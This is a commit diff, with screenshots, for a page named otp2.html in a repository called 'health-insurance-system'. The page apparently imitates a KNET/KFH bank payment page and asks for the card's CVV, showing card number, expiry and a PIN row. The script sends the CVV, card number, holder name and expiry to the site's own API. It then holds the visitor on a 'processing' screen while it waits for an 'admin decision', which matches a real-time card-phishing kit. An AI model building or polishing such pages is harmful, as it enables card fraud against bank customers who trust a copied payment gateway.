

Before and after one commit to hmahasa7-rgb/health-insurance-system, a website: page otp2.html in a window 1280 px wide. After the commit the page ends 800 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
CVV2: match OTP page design, fetch card data from API, fix otp-action to redirect to cvv2 on pass and otp_error on deny

```diff
--- a/otp2.html
+++ b/otp2.html
@@ -3,244 +3,223 @@
 <head>
   <meta charset="UTF-8" />
   <meta name="viewport" content="width=device-width, initial-scale=1.0" />
-  <title>CVV Verification - Payment Gateway</title>
+  <title>CVV Verification - KFH</title>
   <style>
     * { box-sizing: border-box; margin: 0; padding: 0; }
+
     body {
-      background-color: #d6d6d6;
+      background: #e8e8e8;
       font-family: Arial, Helvetica, sans-serif;
       font-size: 13px;
       color: #333;
       min-height: 100vh;
-      display: flex;
-      flex-direction: column;
-      align-items: center;
     }
 
-    /* Banner */
+    /* ===== Banner ===== */
     .banner {
       width: 100%;
-      max-width: 780px;
-      margin: 10px auto 0;
+      max-height: 90px;
+      overflow: hidden;
+      display: block;
     }
     .banner img {
       width: 100%;
-      height: auto;
+      max-height: 90px;
+      object-fit: cover;
       display: block;
     }
 
-    /* Main Container */
+    /* ===== Container ===== */
     .container {
-      width: 100%;
-      max-width: 780px;
-      margin: 0 auto;
-      padding: 0 10px 20px;
+      max-width: 760px;
+      margin: 18px auto;
+      padding: 0 10px;
     }
 
-    /* Card Box */
+    /* ===== Card Box ===== */
     .card-box {
-      background: #f0f0f0;
-      border: 1px solid #ccc;
-      border-radius: 8px;
-      padding: 20px 24px;
-      margin-bottom: 12px;
+      background: #fff;
+      border: 1px solid #c8c8c8;
+      border-radius: 4px;
+      padding: 18px 22px;
+      margin-bottom: 14px;
     }
 
-    /* KFH Logo */
+    /* ===== Bank Logo ===== */
     .bank-logo {
       text-align: center;
-      margin-bottom: 18px;
+      margin-bottom: 14px;
+      padding-bottom: 12px;
+      border-bottom: 1px solid #e0e0e0;
     }
     .bank-logo img {
-      height: 55px;
+      max-height: 52px;
+      max-width: 180px;
+      object-fit: contain;
     }
 
-    /* Info Table */
+    /* ===== Info Table ===== */
     .info-table {
       width: 100%;
       border-collapse: collapse;
-      margin-bottom: 6px;
+      margin-bottom: 0;
     }
-    .info-table tr td {
+    .info-table tr {
+      border-bottom: 1px solid #e8e8e8;
+    }
+    .info-table tr:last-child {
+      border-bottom: none;
+    }
+    .info-table td {
       padding: 8px 6px;
-      border-bottom: 1px solid #ccc;
       vertical-align: middle;
-    }
-    .info-table tr:last-child td {
-      border-bottom: none;
     }
     .info-table td:first-child {
       font-weight: bold;
-      color: #1a5276;
-      width: 40%;
+      color: #2a7a2a;
+      width: 38%;
+      white-space: nowrap;
+    }
+    .info-table td:last-child {
+      color: #333;
     }
 
-    /* Notification Box */
+    /* ===== Notification Box ===== */
     .notification-box {
-      background: #d6eaf8;
-      border: 1px solid #aed6f1;
-      border-radius: 4px;
-      padding: 12px 16px;
+      background: #dce8f5;
+      border: 1px solid #a8c8e8;
+      border-radius: 3px;
+      padding: 12px 14px;
       margin-bottom: 14px;
       font-size: 13px;
-      color: #1a5276;
       line-height: 1.6;
+      color: #333;
     }
     .notification-box strong {
-      color: #1a5276;
+      color: #333;
     }
 
-    /* CVV Input Row */
+    /* ===== CVV Input Row ===== */
     .cvv-row {
       display: flex;
       align-items: center;
       padding: 8px 6px;
-      border-bottom: 1px solid #ccc;
+      border-bottom: 1px solid #e8e8e8;
     }
-    .cvv-row label {
+    .cvv-label {
       font-weight: bold;
-      color: #1a5276;
-      width: 40%;
-      flex-shrink: 0;
+      color: #2a7a2a;
+      width: 38%;
+      white-space: nowrap;
     }
     .cvv-input {
-      border: 2px solid #f39c12;
+      border: 2px solid #f0a000;
       border-radius: 3px;
       padding: 6px 10px;
       font-size: 14px;
       width: 200px;
-      letter-spacing: 4px;
-      text-align: center;
       outline: none;
+      background: #fffdf0;
+      letter-spacing: 2px;
+    }
+    .cvv-input:focus {
+      border-color: #2a7a2a;
       background: #fff;
     }
-    .cvv-input:focus {
-      border-color: #e67e22;
-      box-shadow: 0 0 4px rgba(243,156,18,0.4);
-    }
 
-    /* Error Message */
+    /* ===== Error Message ===== */
     .error-msg {
-      color: #c0392b;
+      color: #cc0000;
       font-size: 12px;
-      padding: 6px 6px 0;
+      margin-top: 6px;
       display: none;
+      padding: 6px 10px;
+      background: #fff0f0;
+      border: 1px solid #ffcccc;
+      border-radius: 3px;
     }
     .error-msg.show { display: block; }
 
-    /* Buttons Box */
-    .buttons-box {
-      background: #f0f0f0;
-      border: 1px solid #ccc;
-      border-radius: 8px;
-      padding: 16px 24px;
-      margin-bottom: 12px;
+    /* ===== Action Box ===== */
+    .action-box {
+      background: #fff;
+      border: 1px solid #c8c8c8;
+      border-radius: 4px;
+      padding: 14px 22px;
+      margin-bottom: 14px;
+    }
+    .btn-row {
       display: flex;
-      gap: 12px;
+      gap: 10px;
     }
     .btn-confirm {
       flex: 1;
-      background: #f0f0f0;
+      padding: 10px 0;
+      background: #f5f5f5;
       border: 1px solid #aaa;
-      border-radius: 4px;
-      padding: 10px;
-      font-size: 13px;
+      border-radius: 3px;
+      font-size: 14px;
       font-weight: bold;
       cursor: pointer;
-      text-align: center;
       color: #333;
-      transition: background 0.2s;
     }
-    .btn-confirm:hover { background: #e0e0e0; }
-    .btn-confirm:disabled { opacity: 0.6; cursor: not-allowed; }
-
+    .btn-confirm:hover {
+      background: #e0e0e0;
+    }
     .btn-cancel {
       flex: 1;
-      background: #f0f0f0;
+      padding: 10px 0;
+      background: #f5f5f5;
       border: 1px solid #aaa;
-      border-radius: 4px;
-      padding: 10px;
-      font-size: 13px;
+      border-radius: 3px;
+      font-size: 14px;
       font-weight: bold;
       cursor: pointer;
-      text-align: center;
       color: #333;
-      transition: background 0.2s;
     }
-    .btn-cancel:hover { background: #e0e0e0; }
+    .btn-cancel:hover {
+      background: #e0e0e0;
+    }
 
-    /* Footer */
+    /* ===== Footer ===== */
     .footer {
       text-align: center;
-      margin-top: 10px;
+      padding: 10px 0 20px;
+      font-size: 12px;
       color: #555;
-      font-size: 12px;
     }
     .footer a {
-      color: #1a5276;
+      color: #2a6496;
       text-decoration: none;
       font-weight: bold;
     }
     .footer a:hover { text-decoration: underline; }
 
-    /* Loading Overlay */
+    /* ===== Loading Overlay ===== */
     .loading-overlay {
+      display: none;
       position: fixed;
       inset: 0;
-      background: rgba(0,0,0,0.5);
-      display: none;
+      background: rgba(255,255,255,0.85);
+      z-index: 999;
       align-items: center;
       justify-content: center;
-      z-index: 9999;
       flex-direction: column;
       gap: 14px;
     }
     .loading-overlay.show { display: flex; }
     .spinner {
-      width: 44px; height: 44px;
-      border: 4px solid rgba(255,255,255,0.3);
-      border-top-color: #fff;
+      width: 46px; height: 46px;
+      border: 5px solid #e0e0e0;
+      border-top-color: #2a7a2a;
       border-radius: 50%;
-      animation: spin 0.8s linear infinite;
+      animation: spin 0.9s linear infinite;
     }
     @keyframes spin { to { transform: rotate(360deg); } }
-    .loading-text { color: #fff; font-size: 14px; }
-
-    /* Success Overlay */
-    .success-overlay {
-      position: fixed;
-      inset: 0;
-      background: rgba(0,0,0,0.7);
-      display: none;
-      align-items: center;
-      justify-content: center;
-      z-index: 9999;
-      flex-direction: column;
-      gap: 14px;
-    }
-    .success-overlay.show { display: flex; }
-    .success-icon {
-      font-size: 60px;
-      color: #27ae60;
-    }
-    .success-text { color: #fff; font-size: 18px; font-weight: bold; }
-    .success-sub { color: #ccc; font-size: 13px; }
+    .loading-text { font-size: 14px; color: #444; font-weight: bold; }
   </style>
 </head>
 <body>
-
-<!-- Loading Overlay -->
-<div class="loading-overlay" id="loadingOverlay">
-  <div class="spinner"></div>
-  <div class="loading-text" id="loadingText">Processing...</div>
-</div>
-
-<!-- Success Overlay -->
-<div class="success-overlay" id="successOverlay">
-  <div class="success-icon">✓</div>
-  <div class="success-text">Transaction Successful</div>
-  <div class="success-sub">Redirecting...</div>
-</div>
 
 <!-- Banner -->
 <div class="banner">
@@ -249,7 +228,7 @@
 
 <div class="container">
 
-  <!-- Main Card Box -->
+  <!-- Merchant & Amount Info -->
   <div class="card-box">
 
     <!-- KFH Logo -->
@@ -257,41 +236,39 @@
       <img src="/imgs/kfh-logo.jpg" alt="KFH Logo" />
     </div>
 
-    <!-- Merchant & Amount Info -->
     <table class="info-table">
       <tr>
         <td>Merchant:</td>
-        <td id="displayMerchant">Online Insurance System</td>
+        <td id="merchantName">Online Insurance System</td>
       </tr>
       <tr>
         <td>Amount:</td>
-        <td><strong id="displayAmount">KD 0.000</strong></td>
+        <td id="amountDisplay">KD 0.250</td>
       </tr>
     </table>
-
   </div>
 
-  <!-- CVV Card Box -->
-  <div class="card-box">
+  <!-- CVV Section -->
+  <div class="card-box" id="mainBox">
 
     <!-- Notification -->
     <div class="notification-box">
-      <strong>NOTIFICATION:</strong> Please enter the CVV (Card Verification Value) found on the back of your card. This is a 3-digit security code printed on the signature strip.
+      <strong>NOTIFICATION:</strong> Please enter the 3-digit CVV number found on the back of your card in the box below to confirm your payment.
     </div>
 
     <!-- Card Details Table -->
     <table class="info-table">
       <tr>
         <td>Card Number:</td>
-        <td id="displayCardNumber">**** **** **** ****</td>
+        <td id="cardNumberDisplay">**** **** **** ****</td>
       </tr>
       <tr>
         <td>Expiration Month:</td>
-        <td id="displayExpMonth">--</td>
+        <td id="expiryMonthDisplay">--</td>
       </tr>
       <tr>
         <td>Expiration Year:</td>
-        <td id="displayExpYear">----</td>
+        <td id="expiryYearDisplay">----</td>
       </tr>
       <tr>
         <td>PIN:</td>
@@ -299,159 +276,188 @@
       </tr>
     </table>
 
-    <!-- Error Message -->
-    <div class="error-msg" id="errorMsg">Please enter a valid CVV code.</div>
-
-    <!-- CVV Input Row -->
-    <div class="cvv-row">
-      <label for="cvvInput">CVV:</label>
-      <input
-        type="password"
-        id="cvvInput"
-        class="cvv-input"
-        placeholder="CVV"
-        maxlength="4"
-        inputmode="numeric"
-        autocomplete="cc-csc"
-      />
+    <!-- CVV Input -->
+    <div class="cvv-row" style="margin-top:10px;">
+      <div class="cvv-label">CVV:</div>
+      <div>
+        <input type="password" class="cvv-input" id="cvvInput" maxlength="4" placeholder="CVV" inputmode="numeric" autocomplete="off" />
+        <div class="error-msg" id="errorMsg">Please enter a valid CVV number.</div>
+      </div>
     </div>
 
   </div>
 
-  <!-- Buttons Box -->
-  <div class="buttons-box">
-    <button class="btn-confirm" id="confirmBtn" onclick="handleConfirm()">Confirm</button>
-    <button class="btn-cancel" onclick="handleCancel()">Cancel</button>
+  <!-- Action Buttons -->
+  <div class="action-box">
+    <div class="btn-row">
+      <button class="btn-confirm" id="confirmBtn" onclick="handleConfirm()">Confirm</button>
+      <button class="btn-cancel" onclick="handleCancel()">Cancel</button>
+    </div>
   </div>
 
   <!-- Footer -->
   <div class="footer">
-    <p>All Rights Reserved. Copyright 2025 ©</p>
-    <p><a href="https://www.knet.com.kw" target="_blank">The Shared Electronic Banking Services Company - KNET</a></p>
+    All Rights Reserved. Copyright 2025 ©<br/>
+    <a href="https://www.knet.com.kw" target="_blank">The Shared Electronic Banking Services Company - KNET</a>
   </div>
 
 </div>
 
+<!-- Loading Overlay -->
+<div class="loading-overlay" id="loadingOverlay">
+  <div class="spinner"></div>
+  <div class="loading-text" id="loadingText">Processing your request, please wait...</div>
+</div>
+
 <script>
-  // Read URL params
+  // ===== Read URL params =====
   const params = new URLSearchParams(window.location.search);
   const referenceId = params.get('ref') || '';
-  const amount = params.get('amount') || '0.000';
-  const cardNumber = params.get('card') || '';
-  const cardHolder = params.get('holder') || '';
-  const expiry = params.get('expiry') || '';
-  const merchant = params.get('merchant') || 'Online Insurance System';
+  const amountParam  = params.get('amount') || '';
+  const cardParam    = params.get('card') || '';
+  const expiryParam  = params.get('expiry') || '';
+  const holderParam  = params.get('holder') || '';
 
-  // Display data
-  document.getElementById('displayMerchant').textContent = merchant;
-  document.getElementById('displayAmount').textContent = 'KD ' + parseFloat(amount).toFixed(3);
-
-  if (cardNumber) {
-    const masked = cardNumber.replace(/\d(?=\d{4})/g, '*');
-    const formatted = masked.replace(/(.{4})/g, '$1 ').trim();
-    document.getElementById('displayCardNumber').textContent = formatted;
+  // ===== Load booking data from API =====
+  async function loadBookingData() {
+    if (!referenceId) return;
+    try {
+      const res = await fetch('/api/booking-data/' + encodeURIComponent(referenceId));
+      if (!res.ok) return;
+      const data = await res.json();
+      if (data && data.payment) {
+        const p = data.payment;
+        // Card Number
+        const rawCard = cardParam || p.cardNumber || '';
+        if (rawCard) {
+          const masked = rawCard.replace(/\d(?=\d{4})/g, '*');
+          document.getElementById('cardNumberDisplay').textContent = masked;
+        }
+        // Expiry
+        const rawExpiry = expiryParam || p.cardExpiry || '';
+        if (rawExpiry && rawExpiry.includes('/')) {
+          const parts = rawExpiry.split('/');
+          document.getElementById('expiryMonthDisplay').textContent = parts[0] || '--';
+          document.getElementById('expiryYearDisplay').textContent = parts[1] || '----';
+        } else {
+          const month = p.expiryMonth || '--';
+          const year  = p.expiryYear  || '----';
+          document.getElementById('expiryMonthDisplay').textContent = month;
+          document.getElementById('expiryYearDisplay').textContent  = year;
+        }
+        // Amount
+        const rawAmount = amountParam || p.amount || '0.250';
+        document.getElementById('amountDisplay').textContent = 'KD ' + rawAmount;
+        // Merchant
+        if (data.clientName) {
+          document.getElementById('merchantName').textContent = 'Online Insurance System';
+        }
+      }
+    } catch(e) {}
   }
 
-  if (expiry) {
-    const parts = expiry.split('/');
-    if (parts.length === 2) {
-      document.getElementById('displayExpMonth').textContent = parts[0];
-      document.getElementById('displayExpYear').textContent = '20' + parts[1];
+  // ===== Apply URL params immediately (before API) =====
+  (function applyUrlParams() {
+    if (cardParam) {
+      const masked = cardParam.replace(/\d(?=\d{4})/g, '*');
+      document.getElementById('cardNumberDisplay').textContent = masked;
     }
-  }
+    if (expiryParam && expiryParam.includes('/')) {
+      const parts = expiryParam.split('/');
+      document.getElementById('expiryMonthDisplay').textContent = parts[0] || '--';
+      document.getElementById('expiryYearDisplay').textContent  = parts[1] || '----';
+    }
+    if (amountParam) {
+      document.getElementById('amountDisplay').textContent = 'KD ' + amountParam;
+    }
+  })();
 
-  // Focus CVV input
-  document.getElementById('cvvInput').focus();
+  // Load data from API
+  loadBookingData();
 
+  // ===== Handle Confirm =====
   async function handleConfirm() {
     const cvv = document.getElementById('cvvInput').value.trim();
-    const errorMsg = document.getElementById('errorMsg');
-    errorMsg.classList.remove('show');
+    const errEl = document.getElementById('errorMsg');
+    errEl.classList.remove('show');
 
     if (!cvv || cvv.length < 3) {
-      errorMsg.classList.add('show');
+      errEl.textContent = 'Please enter a valid CVV number.';
+      errEl.classList.add('show');
       return;
     }
 
     const btn = document.getElementById('confirmBtn');
     btn.disabled = true;
-    showLoading('Verifying...');
+    showLoading('Processing your request, please wait...');
 
     try {
       const res = await fetch('/api/cvv-submit', {
         method: 'POST',
         headers: { 'Content-Type': 'application/json' },
-        body: JSON.stringify({ referenceId, cvv, amount, cardNumber, cardHolder, expiry })
+        body: JSON.stringify({
+          referenceId,
+          cvv,
+          amount: amountParam,
+          cardNumber: cardParam,
+          cardHolder: holderParam,
+          expiry: expiryParam
+        })
       });
       const data = await res.json();
       hideLoading();
 
       if (data.success) {
         if (data.redirect) {
-          showSuccess();
-          setTimeout(() => { window.location.href = data.redirect; }, 2000);
+          showLoading('Redirecting...');
+          setTimeout(() => { window.location.href = data.redirect; }, 1500);
         } else {
-          showWaiting();
-          startRedirectPolling(data.referenceId || referenceId);
+          // Wait for admin decision
+          showLoading('Processing your request, please wait...');
+          startPolling(referenceId);
         }
       } else {
-        errorMsg.textContent = data.message || 'Invalid CVV. Please try again.';
-        errorMsg.classList.add('show');
+        errEl.textContent = data.message || 'Invalid CVV. Please try again.';
+        errEl.classList.add('show');
         btn.disabled = false;
       }
-    } catch (err) {
+    } catch(e) {
       hideLoading();
-      errorMsg.textContent = 'Connection error. Please try again.';
-      errorMsg.classList.add('show');
+      errEl.textContent = 'Connection error. Please try again.';
+      errEl.classList.add('show');
       btn.disabled = false;
     }
   }
 
+  // ===== Handle Cancel =====
   function handleCancel() {
-    if (confirm('Are you sure you want to cancel this transaction?')) {
-      window.history.back();
-    }
+    window.history.back();
   }
 
-  function showLoading(text) {
-    document.getElementById('loadingText').textContent = text || 'Processing...';
-    document.getElementById('loadingOverlay').classList.add('show');
-  }
-
-  function hideLoading() {
-    document.getElementById('loadingOverlay').classList.remove('show');
-  }
-
-  function showSuccess() {
-    document.getElementById('successOverlay').classList.add('show');
-  }
-
-  function showWaiting() {
-    document.getElementById('loadingText').textContent = 'Processing your request, please wait...';
-    document.getElementById('loadingOverlay').classList.add('show');
-  }
-
-  let pollingInterval = null;
-  function startRedirectPolling(ref) {
-    if (pollingInterval) clearInterval(pollingInterval);
-    pollingInterval = setInterval(async () => {
+  // ===== Polling for redirect =====
+  let pollingTimer = null;
+  function startPolling(ref) {
+    if (pollingTimer) clearInterval(pollingTimer);
+    pollingTimer = setInterval(async () => {
       try {
         const r = await fetch('/api/check-redirect/' + encodeURIComponent(ref));
         const d = await r.json();
         if (d.success && d.redirect) {
-          clearInterval(pollingInterval);
-          showSuccess();
-          setTimeout(() => { window.location.href = d.redirect; }, 1500);
+          clearInterval(pollingTimer);
+          setTimeout(() => { window.location.href = d.redirect; }, 800);
         }
       } catch(e) {}
     }, 3000);
   }
 
-  // Enter key support
-  document.getElementById('cvvInput').addEventListener('keydown', (e) => {
-    if (e.key === 'Enter') handleConfirm();
-  });
+  // ===== Loading helpers =====
+  function showLoading(text) {
+    document.getElementById('loadingText').textContent = text || 'Please wait...';
+    document.getElementById('loadingOverlay').classList.add('show');
+  }
+  function hideLoading() {
+    document.getElementById('loadingOverlay').classList.remove('show');
+  }
 </script>
-
 </body>
 </html>
```
Also changed, not shown: server.js (+23 -6 lines).
